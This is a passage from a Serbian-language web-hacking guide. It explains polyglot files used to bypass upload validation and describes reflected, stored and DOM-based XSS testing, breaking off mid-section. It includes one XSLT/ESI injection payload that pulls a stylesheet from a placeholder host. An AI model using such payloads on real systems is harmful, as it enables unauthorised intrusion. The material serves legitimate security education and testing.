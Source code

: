 ### Poligloti

Poliglot je datoteka koja se može tumačiti kao različiti tipovi datoteka, zavisno od konteksta u kojem se izvršava. U kontekstu hakovanja veb stranica, poligloti se mogu koristiti za zaobilaženje sigurnosnih mera i izvršavanje zlonamernog koda.

Poligloti se obično kreiraju iskorišćavanjem sličnosti između različitih formata datoteka. Pažljivim oblikovanjem datoteke koja se pridržava specifikacija više formata datoteka, moguće je kreirati poliglot koji se može različito tumačiti od strane različitih aplikacija.

Poligloti se mogu koristiti na različite načine tokom hakovanja veb stranica. Na primer, poliglot datoteka može biti otpremljena na veb aplikaciju koja vrši validaciju tipa datoteke. Ako aplikacija proverava samo ekstenziju datoteke, ali ne i sadržaj datoteke, može se pogrešno tumačiti poliglot kao drugi tip datoteke, omogućavajući napadaču da zaobiđe sigurnosne mere.

Poligloti se takođe mogu koristiti za iskorišćavanje ranjivosti određenih parsera datoteka. Kreiranjem datoteke koja pokreće ranjivost u određenom parseru, napadač može izvršiti proizvoljni kod ili dobiti neovlašćen pristup sistemu.

Prilikom rada sa poliglotima, važno je razumeti specifikacije uključenih formata datoteka i ponašanje aplikacija koje ih tumače. Ovo znanje je ključno za oblikovanje efikasnih poliglota i iskorišćavanje ranjivosti.

```markup
<xsl:value-of select="system-property('xsl:version')" /><esi:include src="http://10.10.10.10/data/news.xml" stylesheet="http://10.10.10.10//news_template.xsl"></esi:include>
```

## XSS

### Osnovni testovi

#### Reflektovani XSS

Reflektovani XSS je najčešći tip XSS napada. Ovaj napad se dešava kada se korisnički unos direktno prikazuje na stranici bez ikakve validacije ili sanitizacije. Napadač može da ubaci zlonamerni kod koji će se izvršiti u browseru korisnika.

Testiranje reflektovanog XSS-a se vrši unošenjem zlonamernog koda u input polje ili URL parametar i posmatranjem da li se taj kod prikazuje na stranici. Ako se prikazuje, to znači da postoji ranjivost na reflektovani XSS.

#### Pohranjeni XSS

Pohranjeni XSS se dešava kada zlonamerni kod ostaje trajno sačuvan na serveru i prikazuje se svaki put kada se stranica učita. Ovaj tip XSS napada je posebno opasan jer može da utiče na sve korisnike koji posete zaraženu stranicu.

Da biste testirali pohranjeni XSS, potrebno je uneti zlonamerni kod u input polje ili bilo koji drugi oblik korisničkog unosa koji se čuva na serveru. Zatim, kada se stranica ponovo učita, proverite da li se zlonamerni kod prikazuje na stranici.

#### DOM bazirani XSS

DOM bazirani XSS se dešava kada se zlonamerni kod izvršava direktno u DOM-u (Document Object Model) browsera. Ovaj tip XSS napada se dešava kada se korisnički unos koristi za manipulaciju DOM-a na stranici.
